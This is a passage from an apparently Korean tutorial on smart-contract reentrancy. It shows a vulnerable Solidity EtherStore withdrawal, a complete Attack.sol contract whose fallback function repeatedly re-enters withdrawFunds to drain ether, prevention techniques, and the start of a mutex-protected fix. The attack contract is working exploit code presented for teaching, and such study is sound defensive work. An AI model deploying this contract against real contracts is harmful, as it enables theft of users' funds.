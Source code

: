 ```tsx
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

Example 2. Attack.sol

```tsx
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialize the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function attackEtherStore() external payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

## 3-2. 🔒예방기법

- transfer 내장 함수를 이용, 전송에 충분하지 않은 적은 양의 가스만 보내도록 처리(재진입 막기)
- 이더가 전송되기 전에 상태 변수를 변경하는 로직을 다 앞으로 가져온다 ⇒ 알 수 없는 주소로 보내는 외부 호출 코드는 가장 마지막 작업이 되도록 하는게 바람직
- 뮤텍스 도입

Let them all get into it

```tsx
contract EtherStore {

    // initialize the mutex
    bool reEntrancyMutex = false;
    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(!reEntrancyMutex);
```